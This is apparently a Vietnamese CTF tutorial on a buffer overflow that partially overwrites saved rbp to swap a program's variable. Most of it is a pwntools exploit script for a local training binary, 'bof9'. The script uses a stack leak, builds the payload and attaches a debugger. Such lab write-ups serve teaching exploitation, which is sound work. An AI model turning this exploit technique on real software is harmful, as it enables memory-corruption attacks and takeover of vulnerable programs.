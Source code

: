 # Buffer Overflow - Overwrite saved rbp để thay đổi biến

Buffer Overflow vẫn là một lỗi phổ biến và nếu ta chỉ có thể thay đổi giá trị saved rbp, ta hoàn toàn có thể thay đổi luồng thực thi của chương trình. Mỗi biến của chương trình được thể hiện thành giá trị trên stack. mình hướng dẫn các bạn thay đổi địa chỉ stack để thay đổi biến từ biến gốc ban đầu thành biến gốc do mình tự tạo. Kỹ thuật cho bài này có thể hơi khó, các bạn hãy giải lại để thấm hơn về kỹ thuật này nhé

***script:***

```
from pwn import *

p = process('./bof9')
exe = ELF('./bof9')

p.recvuntil(b'Gift for new user: ')
stack_leak = int(p.recvline()[:-1], 16)
log.info('stack leak: ' + hex(stack_leak))

usename_addr = stack_leak - 0x30
fake_rbp_addr = usename_addr + 0x20

gdb.attach(p,gdbscript = '''
b*main+75
b*get_credential+115
c
''')

input()

payload = p64(0x13371337)
payload += p64(0xDEADBEEF)
payload += p64(0xCAFEBABE)
payload += p64(0)
# p64(fake_rbp_addr)[:2] == p16(fake_rbp_addr & 0xffff)
payload += p16(fake_rbp_addr & 0xffff)

p.sendafter(b'Username: ', payload)

# p.sendafter(b'Password: ', b'a'*8)


p.interactive()
```
